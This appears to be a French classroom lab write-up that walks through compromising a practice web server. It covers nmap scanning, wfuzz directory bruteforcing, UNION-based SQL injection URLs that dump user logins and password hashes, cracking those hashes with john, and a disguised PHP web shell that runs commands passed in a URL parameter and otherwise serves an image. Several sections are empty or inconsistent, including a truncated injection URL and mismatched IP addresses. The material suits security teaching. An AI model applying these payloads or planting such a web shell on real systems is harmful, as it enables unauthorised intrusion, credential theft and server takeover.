 ```yaml
---
title: "TDM : Injection SQL"
date: 2019-02-21
categories: ['Sécurité', 'TD machine']
tags : ['wfuzz', 'site Internet', 'SQL', 'kali']
---
```


Le but de ce TD est d'utiliser les injection SQL pour s'introduire dans un site
Internet et d'utiliser celui-ci pour prendre le contrôle de la machine. Nous
allons utiliser des logiciels comme [burp suite][l-burpsuite], [wfuzz][l-wfuzz]
et [BeEf][l-beef].

## Trouver la machine à attaquer

Avant de commences toute attaque, il faut trouver une victime. Comme pour le TDM
sur les attaques réseau, nous allons utiliser `nmap`.  La machine à attaquer
étant sur le même réseau que nous, commençons par trouver notre ip avec la
commande suivante : 

```
ip -4 a show dev wlan0 | grep inet | cut -d ' ' -f 6 
172.16.8.234/24
```

Il nous suffit maintenant de chercher une machine dans le réseau
`172.16.8.0/24`:

```
nmap -sS -p 80 --open 172.16.8.0/24

[...]
Nmap scan report for 172.16.8.189
Host is up (0.0057s latency).

PORT   STATE SERVICE
80/tcp open  http
MAC Address: XX:XX:XX:XX:XX:48 (Virtual Machine)

[...]
```

Nous avons repérer la machine à attaquer, mais ne nous arrêtons pas en si bon
chemin, il est tout à fait possible d'en apprendre un peu plus avec `nmap -sC`
pour peut-être découvrir quelque chose d'exploitable.

## Faire le tour du propriétaire

Connectons nous maintenant sur le site avec notre navigateur et promenons nous
sur le site. C'est un blog photo en PHP qui affiche des images de façon
dynamique. En analysant le code source de la page

## trouver des URL "cachées"

Il est probable que certaines parties du site soit cachées comme par exemple
les pages d'administration. Utilisons [wfuzz][l-wfuzz], logiciel d'analyse de
site par bruteforce.

```
wfuzz -c -w /usr/share/wordlists/wfuzz/general/big.txt -p --hc 404 http://172.16.8.189/FUZZ
```


## Exfilter des données

La page d'affichage des images semble être sensible à l'injection d'une requête
SQL par la méthode HTTP GET (directement dans l'URL). La requête de sélection
des photos semble être de la forme :

```SQL
SELECT * FROM <t_photo> WHERE <t_photo>.id = id;
```

L'URL de la page est alors `http://172.16.8.186/picture.php?picture=id`

### utiliser la clause UNION pour extraire des données

La clause SQL `UNION` va nous permettre d'ajouter des informations extraites de
la base par le biais de cette page mais attention : la seconde partie de la
requête (après le `UNION`) devra comporter le même nombre de colonnes que la
première.

#### Utiliser ORDER BY pour trouver le nombre de colonnes

Pour trouver ce fameux nombre de colonnes, nous allons utiliser la clause `ORDER
BY` et procéder par dichotomie : classons les résultats en commençant par la
colonne 10 L'URL est alors : 

```
http://172.16.8.189/picture.php?picture=1' ORDER BY 10
```

En cas d'erreur utilisons la colonne 5 sinon passons la 20 et ainsi
de suite jusqu'à trouver le bon nombre.

Dans le cadre du TP, le nombre de colonnes est **4**

### Trouver le schéma de la base de données

Pour mener une action efficace, nous devons **en apprendre plus sur le schéma de
cette base**. Dans chaque SGBDR, les information relative aux base sont stockée
dans une table spécifique. Mysql / MariaDB étant le plus utilisé des SGBDR, nous
allons tenter de rechercher dans ce sens : 

```SQL
UNION SELECT 1,concat(table_name,";",column_name),1,1
FROM information_schema.columns
```

L'URL est alors : 

```
http://172.16.8.189/picture.php?picture=1' SELECT 1,concat(table_name,":", [...]
```

Bien vu, la page affiche maintenant les informations demandées, nous avons
trouvé la table intéressante et ses champs :

```
users.id
users.login
users.passwd
```

### Extraire les identifiants

Nous avons maintenant toutes les cartes en main pour extraire les identifiants
des comptes utilisateurs du site, la requête est alors :

```SQL
UNION SELECT 1,concat(login,":",passwd),1,1
FROM users
```

Les identifiants récupérés seront sous la forme `user:pass`, il suffit de les
enregistrer dans un fichier texte pour les passer ensuite à `john`.

## Casser les mots de passes.

Les mots de passe récupérés vont être passé à `john` avec en paramètre une liste
de mots de passe les plus connu. Il est aussi possible de soumettre directement
des `hashes` des mots de passes à un moteur de recherche (Google par exemple).

```shell
john -format=raw-MD5 --wordlist=biglist.txt extracted_pass.txt
```

Dans le cadre du TDM, les deux mots de passes récupérés ont été trouvés dont
celui du compte `admin`.

## Se connecter à la partie administration du site

## Uploader un fichier php

Il est temps maintenant temps de créer un fichier php malveillant et de
l'uploader sur le serveur. Le but pourrait être de masquer complètement notre
script : s'il est appelé avec un paramètre il exécute le paramètre comme une
commande, sinon il affiche une image déjà existante sur le serveur : 

```php
<?php

if ($_GET["c"]) {
	$cmd = system($_GET["c"],$ret);
	echo $cmd;
}
else {
	$name = 'hackerman.jpeg';
	$fp = fopen($name, 'rb');

	// send the right headers
	header("Content-Type: image/png");
	header("Content-Length: " . filesize($name));
	// dump the picture and stop the script
	fpassthru($fp);
	exit;
}
?>
```
[l-burpsuite]:https://portswigger.net/burp
[l-wfuzz]:https://github.com/xmendez/wfuzz
[l-BeEf]:https://beefproject.com/
